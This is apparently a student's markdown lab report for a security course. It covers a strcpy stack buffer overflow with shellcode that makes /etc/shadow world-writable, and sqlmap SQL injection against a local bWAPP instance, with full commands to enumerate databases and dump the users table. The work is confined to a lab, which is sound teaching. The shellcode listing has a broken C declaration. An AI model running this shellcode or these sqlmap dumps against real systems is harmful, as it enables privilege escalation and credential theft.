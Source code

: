 ![image](https://github.com/user-attachments/assets/a4c37203-b2bc-42ec-8729-fc9aaacc2822)# Lab#1, 22110091, Nguyen Tuan Vu, INSE33030E_01FIE
# Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege

```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```

**Question 1:**

- Compile both C programs and shellcode to executable code.
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered.
  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Answer 1**: 

## 1 Run the docker virtual machine

`docker run -it --privileged -v D:/Year-3-Semester-1/"Information Security"/Midterm:/home/seed/seclabs img4lab`

![image](https://github.com/user-attachments/assets/b8d3f3c4-68a1-4d1b-9465-112a6dcd5df2)

# 2 Compile the c programs

use this command to compile vuln.c

```
gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```

![image](https://github.com/user-attachments/assets/e826be7b-1755-4c29-a616-9282cff29188)


use this command to comile shellcode.c

```
gcc -g shellcode.c -o shellcode.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```

![image](https://github.com/user-attachments/assets/f2626b22-f8a3-4106-9227-3016e1233dab)


# 3 Turn off address space layout randomization (ASLR)

`sudo sysctl -w kernel.randomize_va_space=0`

![image](https://github.com/user-attachments/assets/a39e08ff-7977-411f-919a-d9362a9f6a37)

# 4 Analysis stackframe

![image](https://github.com/user-attachments/assets/4b9d03e0-feab-4dcc-9317-0b75c9993fe7)

exploit the stackframe:

- 20 bytes to overflow buf and ebp
- 4 bytes for system address


# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

## 1. Install bWaapp

use this command to set up bWapp

`docker pull raesene/bwapp`

`docker run -d -p 80:80 raesene/bwapp`

![image](https://github.com/user-attachments/assets/f5b75076-6243-4bfb-ba7a-a906386c8962)

![image](https://github.com/user-attachments/assets/0fa13582-1dae-45e7-a23f-9271389816b0)


Open `localhost/install.php`

![image](https://github.com/user-attachments/assets/a66abd09-d9d4-4291-8002-4f4854e4dbdf)

login with 
- default username: bee
- default passwod: bug

Homepage after login:

![image](https://github.com/user-attachments/assets/ac23e031-72a6-47ff-926b-a045bc1266b2)


## 2. Install sqlmap

Clone the sql map

`git clone https://github.com/sqlmapproject/sqlmap.git`


## 3. Attack

Get the cookies to attack:

![image](https://github.com/user-attachments/assets/7dde2c3d-4030-4192-ae7f-eed1728b1aba)

cookies value: e0cihvhout750mn5fh0tfoevl4


**Question 1**: Use sqlmap to get information about all available databases

go to HTML Injection - Reflected (GET)

![image](https://github.com/user-attachments/assets/21fdc301-8eba-48e4-b58e-39cabe03f620)

Choose random movie and submit GO

![image](https://github.com/user-attachments/assets/2129087b-e7db-4fba-b71f-544c3e047662)


Get the URL:
`http://localhost/sqli_2.php?movie=3&action=go`

delete `action=go` because it is not injectable

use this command to get the result:

`python sqlmap.py -u "http://localhost/sqli_2.php?movie=3" --cookie="PHPSESSID=rai86trmqhl5ee4g2h6halric5;security_level=0" --dbs`

**Answer 1**:

![image](https://github.com/user-attachments/assets/828c7767-4cf4-43db-8dbc-21aec306c03a)

result:

![image](https://github.com/user-attachments/assets/a5a252b3-90f2-4d94-821a-f77dd9596abe)

**Question 2**: Use sqlmap to get tables, users information

use this command:

get tables

`python3 sqlmap.py -u "http://localhost/sqli_2.php?movie=3" --cookie="PHPSESSID=rai86trmqhl5ee4g2h6halric5;security_level=0"  --tables`

get user informations

`python3 sqlmap.py -u "http://localhost/sqli_2.php?movie=3" --cookie="PHPSESSID=rai86trmqhl5ee4g2h6halric5;security_level=0"  -D bWAPP - T users --dump`

**Answer 2**:

Tables:

![image](https://github.com/user-attachments/assets/f917c10d-1177-4764-8ffe-43110e191332)

![image](https://github.com/user-attachments/assets/e2a9877f-ed3a-40d5-9801-70da3b3b6647)

![image](https://github.com/user-attachments/assets/e3b0d3ab-66bc-4fe6-b9d7-84135fb788b0)

Users information:

![image](https://github.com/user-attachments/assets/0a6ee294-5f2f-487f-b6fb-4a40ef2853b7)


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit

**Answer 3**:


